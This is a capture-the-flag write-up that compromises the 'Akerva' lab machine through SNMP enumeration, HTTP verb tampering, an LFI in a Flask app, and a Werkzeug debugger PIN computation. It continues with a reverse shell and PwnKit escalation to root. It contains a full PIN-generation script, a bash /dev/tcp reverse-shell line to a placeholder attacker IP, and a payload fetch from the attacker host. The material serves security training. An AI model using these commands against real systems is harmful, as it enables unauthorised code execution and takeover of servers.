**Difficulty:** Easy
**Target IP:** `10.13.37.11`
**Flags:** 8

---

## Table of Contents

1. [Reconnaissance](#reconnaissance)
2. [Port 80 — WordPress](#port-80--wordpress)
3. [Port 161 — SNMP](#port-161--snmp)
4. [Downloading the Backup](#downloading-the-backup)
5. [Port 5000 — Flask App](#port-5000--flask-app)
6. [Werkzeug PIN Exploit](#werkzeug-pin-exploit)
7. [Getting a Shell](#getting-a-shell)
8. [Privilege Escalation to Root](#privilege-escalation-to-root)
9. [Final Flag — Cipher Decryption](#final-flag--cipher-decryption)

---

## Reconnaissance

### TCP Scan

```
sudo nmap -sC -sV -vv 10.13.37.11 -oN Akerva.txt
```

```
# Nmap 7.98 scan initiated Mon May 18 02:43:53 2026 as: /usr/lib/nmap/nmap -sC -sV -vv -oN Akerva.txt 10.13.37.11
Nmap scan report for 10.13.37.11
Host is up, received echo-reply ttl 63 (0.56s latency).
Scanned at 2026-05-18 02:43:54 EDT for 32s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION


22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0d:e4:41:fd:9f:a9:07:4d:25:b4:bd:5d:26:cc:4f:da (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCYsb2eP012xQGyABOzy+gWdxyHIa7xFBkwpLlFOBlYVsJp87Vtve02GudeSUjrz59c7y5nJkLxJAKQRXIObz/jzvCUkTMjH56Mc/3hzdkAzlWg/Gq3vNTyOLODkPPInJGGk1WgovnLcAJtNgdXaO7nYrDqyC8eCjBt7ppsONrz9FmEbiqLQl1m/LYb7Em6X1ZviytlJeH7eEk3UcKX45sNpzaUINdf1PJnXK3CLTB+vEAaieWz1GzCMsuRMphsmnW/d2ObpfZfCMa/NKYpAi0Z6yxUlI/HPEOWNnWO45OZ+7+M8NTxklZCHUbeCDhK8YSnpXtaEFPZvKajqZB+F2tR
|   256 f7:65:51:e0:39:37:2c:81:7f:b5:55:bd:63:9c:82:b5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEKLumcSSQuW4qihcz0zZyca/KvBaXlysVAvY/DqLV0vo4bPoz+PH0qP7vuSlgCIqdiyJKq5JFfJz58e4kujk90=
|   256 28:61:d3:5a:b9:39:f2:5b:d7:10:5a:67:ee:81:a8:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINAqCT5KghTKGzjImXygZG4vYKvk0akCYJaonX3hXvkE


80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6A6F2809F13E037DDC8D625B58FDA218
|_http-title: Root of the Universe &#8211; by @lydericlefebvre &amp; @akerva_fr
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.4-alpha-47225


5000/tcp open  http    syn-ack ttl 63 Python BaseHTTPServer http.server 2 or 3.0 - 3.1
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-auth: 
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Authentication Required
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 18 02:44:26 2026 -- 1 ip address (1 host up) scanned in 32.52 seconds
```

**Open ports:**
- `22` — SSH
- `80` — Apache (WordPress site)
- `5000` — Python/Werkzeug Flask app (requires auth)

Add the target to `/etc/hosts`:

```
echo "10.13.37.11 akerva.htb" | sudo tee -a /etc/hosts
```

### UDP Scan

```
sudo nmap -sU -sC -sV -oN akerva-udp 10.13.37.11
```

```
PORT    STATE         SERVICE
53/udp  open|filtered domain
67/udp  open|filtered dhcps
68/udp  open|filtered dhcpc
69/udp  open|filtered tftp
111/udp open|filtered rpcbind
123/udp closed        ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
139/udp open|filtered netbios-ssn
161/udp open          snmp
162/udp open|filtered snmptrap
500/udp open|filtered isakmp
514/udp open|filtered syslog
```

Port `161/UDP` (SNMP) is **open** — worth enumerating.

---

## Port 80 — WordPress

### Flag 1

Viewing the page source of the landing page immediately reveals the first flag in an HTML comment.

```
AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}
```



> **Lesson:** Always check the HTML source of every page. Developers often leave credentials or notes in comments.

The source also confirms the site is running **WordPress**.



### Directory Fuzzing

```
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://akerva.htb/FUZZ
```

Notable results:
```
wp-content    [Status: 301]
scripts       [Status: 401]   ← requires auth
wp-includes   [Status: 301]
dev           [Status: 301]
wp-admin      [Status: 302]
wp-login      [Status: 200]
```

The `/scripts` directory is interesting — it returns `401 Unauthorized`. We'll come back to this.

### WordPress User Enumeration

Run `wpscan` to find valid usernames:

```
wpscan --url http://10.13.37.11 --enumerate u
```

```
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.13.37.11/xmlrpc.php
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
 | Confirmed By:
 |  - Link Tag (Passive Detection), 30% confidence
 |  - Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.13.37.11/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.13.37.11/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4 identified (Insecure, released on 2020-03-31).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.13.37.11/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.13.37.11/, Match: 'WordPress 5.4'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.13.37.11/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://10.13.37.11/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 4.1
 | Style URL: http://10.13.37.11/wp-content/themes/twentyfifteen/style.css?ver=20190507
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.13.37.11/wp-content/themes/twentyfifteen/style.css?ver=20190507, Match: 'Version: 2.5'
 
 [+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:21 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:21

[i] User(s) Identified:

[+] aas
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.13.37.11/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Valid username found: **`aas`**



Password bruteforce with `rockyou.txt` returned nothing, so we move on.

---

## Port 161 — SNMP

SNMP (Simple Network Management Protocol) can expose a lot of system info if the community string is weak. We brute-force community strings:

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.13.37.11
```

```
10.13.37.11 [public] Linux Leakage 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64
```

The community string `public` is valid. Now enumerate everything:

```
snmpwalk -v2c -c public 10.13.37.11
```

Or faster:

```
snmpbulkwalk -v2c -c public 10.13.37.11
```

### Flag 2

While enumerating SNMP output we spot a reference to a backup script and **Flag 2**.



---

## Downloading the Backup

### HTTP Verb Tampering — Flag 3

SNMP revealed a script at `/scripts/backup_every_17minutes.sh`. A regular GET request is blocked:

```
curl -X GET http://10.13.37.11/scripts/backup_every_17minutes.sh
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>
```

> **HTTP Verb Tampering:** Some servers only restrict specific HTTP methods (like GET) but forget to restrict others (like POST). We can bypass this by changing the method.

```
curl -X POST http://10.13.37.11/scripts/backup_every_17minutes.sh
```

This works — the script content is returned, containing **Flag 3**.



### What the Script Reveals

Reading the script shows:
1. It zips the entire website content
2. Saves it as `backup_$timestamp.zip`
3. Repeats every **17 minutes (1020 seconds)**
4. The backup is stored at `/backups/` on the webserver

### Finding the Backup File

Get the current server time via HTTP headers:

```
curl -I http://10.13.37.11
```
```
Date: Mon, 18 May 2026 09:42:50 GMT
```

Verify with SNMP:

```
snmpget -v2c -c public 10.13.37.11 1.3.6.1.2.1.25.1.2.0
```

Server time: `2026-05-18 10:10:08 UTC`

Since the filename is `backup_YYYYMMDDHHMMSS.zip`, we know the date portion and need to fuzz the last 4 digits (minutes + seconds). Use `ffuf`:

```
ffuf -c \
     -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt \
     -u "http://10.13.37.11/backups/backup_2026051812FUZZ.zip" \
     -mc all -fc 404
```



Download the backup:

```
wget http://10.13.37.11/backups/backup_20260518123008.zip
```

### Flag 4

Search the extracted backup for flags:

```
grep -r "AKERVA{" .
```



---

## Port 5000 — Flask App

The Flask app at `akerva.htb:5000` requires HTTP Basic Auth. Let's fuzz its endpoints:

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u "http://10.13.37.11:5000/FUZZ" -mc all -fc 404
```

```
console    [Status: 200]
download   [Status: 401]
file       [Status: 401]
```

Visiting `/console` gives us the **Werkzeug interactive debugger** — a Python console locked behind a PIN.



---

## Werkzeug PIN Exploit

### The LFI Vulnerability

The backup we downloaded contains the Flask app source code. Inside `space_dev.py` there is a classic **Local File Inclusion (LFI)** vulnerability:

```python
@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

The `filename` parameter is passed directly to `open()` with zero sanitization. This means we can read any file on the server:

```
http://10.13.37.11:5000/file?filename=/etc/passwd
```

We already know the credentials from Flag 4 (`aas:AKERVA{...}`), so we can authenticate and use this endpoint to leak files needed to compute the Werkzeug PIN.

### Why We Need These Files

The Werkzeug debug PIN is generated from a combination of server-specific values. We need:

| File | Purpose |
|------|---------|
| `/proc/net/arp` | Shows the network interface name (e.g. `ens33`) |
| `/sys/class/net/ens33/address` | MAC address of that interface |
| `/etc/machine-id` | Unique machine identifier |

The full PIN generation flow:

```
MAC address (hex)
a2:de:ad:94:31:d1
        ↓
convert to decimal integer
179077278609873
        ↓
feed into MD5 hash along with:
- username (aas)
- flask.app
- Flask
- /path/to/flask/app.pyc
- machine-id
        ↓
hash → PIN: 914-894-139
```

### Leaking the Files

**1. Get the network interface name:**
```
curl -u "aas:AKERVA{1kn0w_H0w_TO_\$Cr1p_T_\$\$\$\$\$\$\$\$}" \ "http://10.13.37.11:5000/file?filename=/proc/net/arp"
```

**2. Get the MAC address** (replace `ens33` with the interface from step 1):
```
curl -u "aas:AKERVA{1kn0w_H0w_TO_\$Cr1p_T_\$\$\$\$\$\$\$\$}" \ "http://10.13.37.11:5000/file?filename=/sys/class/net/ens33/address"
```

**3. Get the machine ID:**
```
curl -u "aas:AKERVA{1kn0w_H0w_TO_\$Cr1p_T_\$\$\$\$\$\$\$\$}" \ "http://10.13.37.11:5000/file?filename=/etc/machine-id"
```

### PIN Generation Script

Fill in the values from the steps above and run this script:

```python
import hashlib
from itertools import chain

# ---- PROBABLY PUBLIC BITS ----
# These come from the Flask app source code we found in dev/
probably_public_bits = [
    'aas',          # username who runs the flask app
                    # found in app.py → users = {"aas": ...}

    'flask.app',    # always flask.app
                    # it's the module name of Flask itself

    'Flask',        # always Flask
                    # it's the class name

    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc'
                    # absolute path to flask/app.py on the server
                    # found by reading werkzeug __init__.py via LFI
                    # python2 uses .pyc, python3 uses .py
]

# ---- PRIVATE BITS ----
# These come from the server itself via LFI
private_bits = [
    '179077278609873',                    # MAC decimal (step 1)
                                          # from /sys/class/net/ens33/address

    '258f132cd7e647caaf5510e3aca997c1',   # machine-id
                                          # from /etc/machine-id
]

# ---- HASHING (exact same algo Werkzeug uses internally) ----
h = hashlib.md5()

# Feed every bit into the hash
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')   # convert string to bytes
    h.update(bit)                   # update hash with each value

h.update(b'cookiesalt')             # Werkzeug adds this salt for cookie

# Generate cookie name (not needed for PIN but useful to know)
cookie_name = '__wzd' + h.hexdigest()[:20]

# Now add pinsalt and generate the actual PIN
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]  # 9 digit number from hash

# Format into groups (e.g. 914-894-139)
rv = None
for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
        rv = '-'.join(
            num[x:x + group_size].rjust(group_size, '0')
            for x in range(0, len(num), group_size)
        )
        break

print(f"PIN:    {rv}")
print(f"Cookie: {cookie_name}")
```



Enter the PIN at `/console` to unlock the Python interpreter.

---

## Getting a Shell

The Werkzeug console lets you run Python one line at a time.



Set up a Netcat listener on your machine:

```
nc -lvnp 4444
```

In the Werkzeug console, import `os` then send a reverse shell:

```python
import os
```

```python
os.popen('bash -c "bash -i >& /dev/tcp/YOUR_TUN0_IP/4444 0>&1"').read()
```

Once the shell connects, upgrade to a proper TTY:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Flag 5 & Flag 6




---

## Privilege Escalation to Root

Use [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) to find local kernel exploits.

**On your machine (host):**
```
python3 -m http.server 8000
```

**On the victim (shell):**
```
wget http://YOUR_TUN0_IP:8080/linux-exploit-suggester -O /tmp/linux-exploit-suggester
```

Run it and pick the best candidate — **CVE-2021-4034** (PwnKit) works here.

Transfer the exploit script to the victim and run:

```
python3 /tmp/CVE-2021-4034.py
```

You should get a root shell. Navigate to `/root` for the flag.

### Flag 7



---

## Final Flag — Cipher Decryption

There is a note in `/root` containing encoded text:

```
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUlJLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK
```

**Step 1 — Base64 decode** the blob:

```
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE
```

**Step 2 — Identify the cipher**

The ciphertext uses only uppercase letters with no numbers or symbols, and it's much longer than a typical hash — this looks like a classical substitution cipher. The alphabet present is:

```
ACDEFGHIKLMNOPRSTUVWY
```

**Step 3 — Decrypt with dcode.fr**

Using [dcode.fr](https://www.dcode.fr/vigenere-cipher):
- Set **Alphabet** to the chars above
- Set method to **"Knowing a plaintext word"**
- Enter `AKERVA` as the known word
- Hit **DECRYPT**

The tool identifies the key as `ILOVESPACE`.



**Step 4 — Decrypt with the key**

Switching to **"Knowing the Key/Password"** and entering `ILOVESPACE` gives:

```
WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE
```

### Flag 8

```
AKERVA{IKNOOOWVIGEEENERRRE}
```

---


